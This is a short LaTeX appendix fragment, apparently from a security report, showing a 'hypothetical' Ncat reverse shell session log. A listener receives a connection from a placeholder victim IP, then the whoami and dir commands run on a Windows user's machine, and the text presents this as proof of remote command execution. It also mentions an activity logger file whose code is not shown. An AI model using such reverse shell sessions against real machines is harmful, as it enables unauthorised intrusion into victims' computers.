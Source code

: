 \documentclass[11pt]{article}
\begin{document}
	Source: Provided `activity_logger.py` file (with illustrative enhancements for CSV output, better process finding, and logging).
	
	\section{Artifact Excerpts & Configurations}
	\subsection{C2 Session Transcript Example (`C2_session.log`)}
	\label{app:c2_transcript}
	Below is a hypothetical excerpt from a successful Ncat reverse shell session:
	\begin{verbatim}
		Listening on [0.0.0.0] (family 0, port 12345)
		Connection from [VICTIM_IP_ADDRESS] port XXXXX received!
		Microsoft Windows [Version 10.0.XXXXX.XXXX]
		(c) Microsoft Corporation. All rights reserved.
		
		C:\Users\VictimUser\Documents>whoami
		victim-pc\victimuser
		
		C:\Users\VictimUser\Documents>dir
		Volume in drive C has no label.
		Volume Serial Number is XXXX-XXXX
		
		Directory of C:\Users\VictimUser\Documents
		
		05/10/2024  03:45 PM    <DIR>          .
		05/10/2024  03:45 PM    <DIR>          ..
		...
		0 File(s)              0 bytes
		2 Dir(s)  XX,XXX,XXX,XXX bytes free
		
		C:\Users\VictimUser\Documents>exit
	\end{verbatim}
	This transcript (stored in `C2_session.log`) demonstrates successful remote command execution.
	
\end{document}
